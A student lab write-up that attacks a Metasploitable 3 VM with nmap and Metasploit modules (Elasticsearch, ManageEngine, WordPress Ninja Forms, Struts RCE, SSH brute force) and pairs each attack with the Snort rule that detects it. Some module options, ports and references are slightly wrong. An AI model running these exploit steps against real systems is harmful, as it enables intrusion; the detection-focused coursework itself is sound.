 Please GO THROUGH THE PDF FILE

# Cyber_Security_Base_Project_II
"Metasploitable 3" and "Snort" rules 
Cyber security base – Project II

Target – Metasploitable 3
	    Windows Server 2008 & Ubuntu server 14

STEP 1: Run an Nmap Ping sweep scan to look for potential connected devices  

$ nmap -sP 192.168.1.1/24


STEP 2: Identify Target Host – 192.168.1.40

STEP 3: Run an nmap scan on the target machine with OS Fingerprinting and save the output in a file called Meta3.nmap


I ran a verbose nmap scan for which i have attached the output file:

# Nmap 7.80 scan initiated Sun Mar  8 20:48:34 2020 as: nmap -sC -sV -p- -A -oA Meta3 192.168.1.40 (output file attached)

Scan results discovered many of valuable information about the open ports and services running on the target device. There was no authentication required to access the administrative functions, default credentials are not changed and there are outdated versions of a few were running. Snort obviously did not trigger a warning about anything, as the port scan detection configurations has been commented out from snort.conf on default.

EXPLOIT I – ELASTIC SEARCH – CVE-2014-3120

STEP 4: PORT 9200 – Elasticsearch

Googling about the gethered information I found a link which has an exploit for that service. 

Vulnerability name: Elastic search - CVE-2014-3120

https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server

STEP 5: Run a searchsploit and check if you have the exploit in local machine.

$ searchsploit elasticsearch



STEP 6: Turn on metasploit

$ msfconsole








STEP 7: search for an exploit and exploit the machine.

$ search elasticsearch
$ use exploit/multi/elasticsearch/script_mvel_rce
$ options
$ set rhost 192.168.1.40
$ exploit

you get a shell once you get a shell, you can run the following commands.

# sysinfo
# shell
# whoami


Snort did not log any alerts

SNORT RULE FIX: but after uncommenting line 811 (depends about ruleset) on server-other.rules file, Snort produces the following message: SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]

EXPLOIT II - ManageEngine (CVE-2015-8249)

STEP 1: Port 8020 is running an Apache service 

STEP 2: Visit <your_meta_ip>:8020



Manage Engine is running in that port with a default username and password admin:admin

Manage Engine : Build No – 91084 

Googling for such information we get the following Poc
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

STEP 3: look for exploits in your device 

$ searchsploit manageengine desktop central 9


STEP 4: Turn on metasploit

$ msfconsole
$ search manageengie
$ use exploit/windows/http/manageengine_connectionid_write
$ set rhost 192.168.1.40
$ exploit

you gain meterprerer shell, run the following commands to conform.
# sysinfo			# shell 			# whoami
Once again, Snort doesn’t alert about anything, but this can easily be changed by 

SNORT RULE FIX: Uncommenting lines 1854-1856 on server-webapp.rules gives us following: SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]


Exploit III - WordPress – CVE-2016-1209
STEP 1: Visit <Meta_ip:>8585 you can see that wordpress is running.

STEP 2: Googling a little bit we found the following exploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
STEP 3: Trun on metasploit console and exploit the target.
$ msfconsole
$ search wp_ninja_forms
$ use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
$ set rhost 192.168.1.40
$ set rport 8585
$ set TARGETURI /wordpress/
$ set FORM_PATH /index.php/king-of-hearts/
$ exploit

SNORT RULE FIX : After uncommenting line 2284 in server-webapp.rules and adding the port 8585 into monitoring HTTP traffic, Snort gives the following alert: SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [**] [Classification: Attempted Administrator Privilege Gain]


EXPLOIT 4: Bruteforcing SSH
STEP 1: When you gained a root access last time, run the following command to see a list of all users in the system.
$net users

We can use the metaploit module for ssh_login to try to brute force into some of these available names.

STEP 2: save all the user name in a text file





















STEP 3: turn on metasploit and use the ssh_login module to check for insecure passwords same as username.

$ use auxiliary/scanner/ssh/ssh_login
$ set rhost 192.168.1.40
$ set USER_AS_PASS true
$ set USER_FILE user.txt
$ exploit

Give the user file that we created to metasploit and exploit

I had some issues with my arch linux so had to shift back to kali for this one.
We can already see that we got some valid credentials like Vagrant:Vagrant.

SNORT FIX : Snort could probably be generated for slower (longer) SSH brute force attempts, but for such a fast SSH connection it wouldn’t be wise to start raising alert flags (considering admin’s point of view).


EXPLOIT 5: Apache Struts CVE-2016-3087

STEP 1: Look nmap result port 8282 runs Apache Tomcat Server, 

STEP 2: After a bit of research we find the following:
https://www.rapid7.com/db/vulnerabilities/struts-cve-2016-3087

STEP 3: Open metasploit and look for exploit and hack the box.
$ msfconsole
$ search rest_exec
$ use exploit/multi/http/struts_dmi_rest_exec
$ set lhost 192.168.1.40
$ set lport 8282
$ exploit


We hacked the box 

SNORT RULE FIX: We can get Snort to figure this out by uncommenting lines 118 and 119 from server-apache.rules (which I had already done) and adding port 828 for monitoring. This gives us following message: SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain]

Is it easier to fix the application than to detect attacks?

In my opinion, it is a lot easier to detect attacks than to fix an application. 
Because, the latter can be approached in various diffent ways than the former. 
In other words, it is more efficient to perform reconnissance, pen testing and privilege escalation to find the faults with 
the application than to go through millions of lines of codes to find faults to fix. 
More over, in the latter approach, ususally, one vulernability fix would give rise to multiple vulnerabilites and 
mistakes could be done on implementation level as well, not necessarily on the code level. 
So, problems like this could really put developers out of their elements. 
This is liable to make developers cause more errors as well. 
Developers usually have a lot on their plate and it is hard for them to take care of fixing the applications all by 
themselves especially with the recent proliferation in IoT. That is where intrusion detection comes in. 
Intrusion detection is at least a countermeasure, even though in not a direct way and it gives information about the 
possible vulnerabilities both on the system and its applications. 
Systems that are based on modern open source are obviously easier to fix, but first you must find the vulnerabilities, 
so considering the problem at hand, intrusion detection is also needed. Pentesting report and vulnerability analysis 
can actually expdite the process of fixing application. Usually, other than Intrusion Detection Systems (IDE) like snort. 
detecting attacks are done through managing and detecting logs as well. 
If there is any out of ordinary behavior is noticed in logs, 
then we can brace ourself for a vulnerability assessment and check for software or hardware to be updated 
(not all the time, false positives are really irritating though).
